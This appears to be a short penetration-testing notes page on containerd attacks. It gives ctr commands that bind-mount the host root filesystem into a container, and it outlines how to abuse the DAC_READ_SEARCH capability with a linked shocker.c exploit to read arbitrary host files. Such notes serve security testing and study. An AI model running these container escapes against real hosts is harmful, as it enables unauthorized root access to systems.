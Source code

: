 # Containerd Attacks

## 1. Use case -User privileges in a host which is running Containerd

* `ctr image list` Check containerd images&#x20;
* Next Start a container and add it to host machine&#x20;
  * `ctr run --mount type=bind,src=/,dst=/,options=rbind -t ubuntu:latest ubuntu bash`
  * After that point you can reach root file system.&#x20;

### 2. Use Case - Abusing DAC\_READ\_SEARCH Capability

* Start a container in root mode with privileges.
* &#x20;`ctr run --privileged --net-host -t ubuntu:latest ubuntu bash`
* Check `capsh --print`
  * And find cap\_dac\_read\_search
  * `mount`
  * Check /etc/hosts is mounted or not
  * if it is there use the code [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c)
  * Change there main function in order to give argument and read anything in host system.&#x20;
  * ![](../../.gitbook/assets/image.png)
